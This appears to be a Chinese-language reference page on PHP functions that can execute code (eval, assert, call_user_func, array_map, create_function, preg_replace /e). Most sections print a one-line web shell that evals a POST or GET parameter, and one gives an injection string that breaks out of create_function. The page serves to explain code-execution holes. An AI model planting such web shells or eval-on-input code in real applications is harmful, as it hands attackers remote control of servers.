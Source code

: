 #  常见PHP代码执行函数
## eval 函数
把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，且必须以分号结尾。如果没有在代码字符串中调用 return 语句，则返回 NULL。如果代码中存在解析错误，则 eval() 函数返回 false

``eval (string @code)``

``<?php @eval($_POST['cmd']);?>``

## assert 函数
如果 `assertion` 是字符串，它将会被 assert() 当做 PHP 代码来执行

``bool assert ( mixed $assertion [Throwable $exception] )``

``<?php @assert($_POST['cmd']);?>``

## call_user_func() 函数
call_user_func() 函数会把第一个参数作为回调函数调用

``mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )``

把第一个参数作为回调函数 callback 调用，其余参数作为回调函数的的参数传入

```
<?php
function callback(){
	$shell=$_GET['shell'];
	eval($shell);
}
@call_user_func('callback',$shell);
?>
```

## call_user_func_array() 函数

call_user_func_array() 函数把第一个参数作为回调函数 callback 调用，把参数数组作 param_arr 为回调函数的的参数传入

``mixed call_user_func_array ( callable $callback , array $param_arr )``

```
<?php
function callback(){
	$shell=$_GET['shell'];
	eval($shell);
}
@call_user_func_array('callback',array($shell));
?>
```

## array_map 函数
array_map 函数为数组的每个元素应用回调函数。array_map为 每个数组元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 array_map() 数组数量，两者必须一样

``array array_map ( callable $callback , array $array1 [, array $... ] )``

```
<?php
function callback(){
	$shell=$_GET['shell'];
	eval($shell);
}
@array_map('callback',array($shell));
?>
```

## create_function 函数
create_function 函数根据传递的参数创建匿名函数，并为该匿名函数返回唯一名称。

``steing create_function(string $args,string $code)

```
<?php
$id=$_GET['id'];
$code='echo'.$func.'test'.$id.';'
create_function('$func',$code);
?>
```

create_function函数会创建虚拟函数，转变为如下代码：

```
<?php
$id=$_GET['id'];
function func (func){
	echo "test".$id;
}
?>
```
当id传入的值为 ``1;}phpinfo();/*`` 是就可以造成代码执行

## preg_replace 函数
preg_replace 函数执行一个正则表达式的搜索和替换

``mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )``

搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换

参数说明：

-   $pattern: 要搜索的模式，可以是字符串或一个字符串数组。
    
-   $replacement: 用于替换的字符串或字符串数组。
    
-   $subject: 要搜索替换的目标字符串或字符串数组。
    
-   $limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
    
-   $count: 可选，为替换执行的次数。

/e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。

## 可变函数

PHP 支持可变函数的概念。这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。这意味着在PHP中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态地调用函数。可变函数可以用来实现包括回调函数，函数表在内的一些用途。